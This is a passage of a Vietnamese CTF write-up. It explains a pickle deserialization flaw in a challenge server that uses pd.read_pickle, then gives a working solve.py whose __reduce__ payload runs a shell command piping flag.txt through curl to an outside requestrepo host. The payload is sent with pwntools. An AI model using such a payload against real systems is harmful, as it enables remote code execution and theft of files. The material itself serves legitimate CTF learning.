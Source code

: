 ```python
    
class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass

def main():
    service = Service
    server = ThreadedService((HOST, PORT), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=server.serve_forever)
    server_thread.daemon = True
    server_thread.start()

    print("Server started on " + str(server.server_address) + "!")
    # Now let the main thread just wait...
    while True:
        time.sleep(10)
        
if __name__ == "__main__":
    main()

```
Chương trình cho phép mình nhập độ dài của pickle data và pickle data frame rồi sau đó sử dụng pd.read_pickle để đọc object
Mình để ý `pd.read_pickle` này có chức năng cũng giống như `pickle.loads()` nên mình xác định từ đầu đây là lỗi `data serialization in Python with pickle`, mình có thể khai thác lỗi này bằng cách tạo một object mới sử dụng `__reduce__` để RCE rồi sau đó pickle.dumps và gửi lên server
solve.py

```python
from pwn import *
import pickle
import os

class PickleRce():
    def __reduce__(self):
        cmd = "cat flag.txt | curl -d @- r1y7b2aw.requestrepo.com"
        return (os.system,(cmd,))
io=process('ncat --ssl pickle-trouble-4d44b9115f4a0ada.chall.ctf.blackpinker.com 443'.split())
data=pickle.dumps(PickleRce())
io.sendline(str(len(data)).encode())
io.sendline(data)
io.interactive()
```
`Flag: HCMUS-CTF{S||\/|pL3_p1cKlE_ExpL01t-Huh}`

## MISC

### Sanity check
JOIN DISCORD VÀ TÌM FLAG

